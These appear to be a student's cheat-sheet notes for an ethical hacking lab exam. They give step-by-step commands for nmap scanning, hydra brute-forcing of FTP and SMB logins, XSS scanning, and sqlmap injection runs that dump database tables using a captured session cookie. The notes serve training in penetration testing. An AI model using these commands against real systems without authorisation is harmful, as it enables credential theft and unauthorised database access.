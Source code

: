# Test website for clickjacking
If ClickJackPOC.py doesn't work, try www.clickjacker.io

# Finding HTTP and Web servers for websites
- Can use http-recon
- If site isn't reachable with the tool, try opening it with firefox or chrome
- Press F12 -> Network tab -> Refresh page
- Look under response headers

# Cracking FTP Credentials
- REMEMBER THERE ARE PROVIDED WORDLISTS
- Check both the one on Desktop and in Module 13 in Parrot Machine
- nmap -p 21 192.168.0.0/24
- sudo nmap -sS -A -T5 <target_ip>/24
- hydra -L user.txt -P pass.txt ftp://<target_ip>

# Finding Load Balancing Svc
1. dig <site> -> Take sites from ANSWER SECTION
2. lbd <answer_site>

# CMS
Content management system refers to the system used by the website (eg. WordPress, SquareSpace)

# Banner Grabbing
wget <ip> -q -S (gives etag)
- Make sure to use an actual ip and not a hostname

# Web application snooping
- Use Burp Suite and setup a proxy to observe the structure

# Check for XSS
- Navigate to PwnXSS folder
- python3 pwnxss.py -u <url>

# SQL Injection Attack
The question asks to get number of users and gave login credentials
- Login to target site and select "View Profile"
- Open Developer tools (F12), go to console and type "document.cookie"
- Eg. "mscope=*********; ui-tabs-1=0"
- Open a terminal
- sqlmap -u "<current_url>" --cookie="mscope=*********;" --dbs
    - Returns all available databases 
    - (Eg. we're selecting moviescope)
- sqlmap -u "<current_url>" --cookie="mscope=*********; ui-tabs-1=0" -D moviescope --tables
    - Returns all tables 
    - (Eg. we want User_Login)
- sqlmap -u "<current_url>" --cookie="mscope=*********; ui-tabs-1=0" -D moviescope -T User_Login --dump
    - Returns a list of all content in that table
    - (Eg. This table has 9 users)

# SQL Injection Attack (Part 2)
Given a web application, find a value in a db table
- Access the website via the url and copy the url that has a parameter (eg. id=1)
- On Parrot OS, Applications -> Pentesting -> Exploitation Tools -> Web Apps -> jSQL Injection
- Paste URL and click attack
- Search acquired DBs for the value

# SQL Injection Parameter Tampering
If looking for values in a web app such as page_id=##
1. nmap -sV --script=http-enum <target_ip>
2. Use burp suite to capture requets when entering things into any text field
3. Open Body Parameters(or any input parameter) and add some text "1 OR ANY TEXT"
4. Save the file by right clicking on burp and then select save to file
5. sqlmap -r <burp.txt> --dbs
    - Select a database
6. sqlmap -r <burp.txt> -D <database_name> --tables
    - Select a table
7. sqlmap -r <burp.txt> -D <database_name> -T <table_name> --columns
8. sqlmap -r <burp.txt> -D <database_name> -T <table_name> --dump-all
9. Go back to url and edit it to get page_id=##

# Detect Session Hijacking
- Open .pcap file in Wireshark
- Filter by ARP and see there is a lot of requests

# SMB Hacking Example
Machine has SMB service enabled in 192.168.0.0/24 subnet. Gain access with the user adam and obtain the target file. Decode the file with adam's password.
1. sudo nmap -T5 -Ss -P 139,445 --script vuln 192.168.0.0/24
    - nmap scan smb ports and see which one is vulnerable
2. hydra -l adam -P pass.txt <target_ip> smb
3. smbclient //<target_ip>/share
    - Access the smb share folder
4. smbclient -L <target_ip>
    - List all files
5. get target.txt
6. You can use BCTextEncoder on Windows machine to decrpyt the message